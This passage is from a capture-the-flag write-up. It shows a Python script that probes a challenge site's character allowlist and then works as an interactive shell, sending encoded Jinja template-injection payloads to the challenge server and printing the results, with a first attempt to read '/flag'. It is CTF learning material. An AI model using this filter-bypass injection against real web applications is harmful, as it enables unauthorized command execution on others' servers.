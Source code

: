 ```py
}
def get_filters():
    filters = []
    allowed = []
    for char in string.printable:
        r = requests.get(f"https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload={char}")
        if "Failed Allowlist Check" not in r.text:
            allowed.append(char)
            print(allowed)
        
def payload(cmd):
    cmd = list(cmd)
    for i in range(len(cmd)):
        cmd[i] = table[cmd[i]]
    result = "+".join(cmd)
    return re.sub(r"'\+'", "", result)
def urlencode(cmd):
    cmd = list(cmd)
    for i in range(len(cmd)):
        if cmd[i] == "+":
            cmd[i] = "%2B"
    return "".join(cmd)
while True:
    cmd = input("\n> ")
    if cmd == "exit":
        exit()
    exploit = payload(cmd)
    exploit_encoded = "{{(" + urlencode(exploit) + ")|e}}"
    length = len(unquote(exploit_encoded))
    r = requests.get(f"https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload={exploit_encoded}")
    if "Internal" in r.text:
        print("[-] Internal Server Error")
        continue
    soup = bs(r.text, 'html.parser')
    result = soup.find("code").find("p").contents[0]
    print(f'\x1b[34;1mLength: \x1b[37m{length}/161, {161 - length} chars left\x1b[0m)')
    print(f'\x1b[34;1mOutput: \033[37m{result}\x1b[0m')
```

Now we can start exploiting.

## Exploit
Let's use our payload ``open("/flag").read()``:

![open_fail](images/open_fail.png)
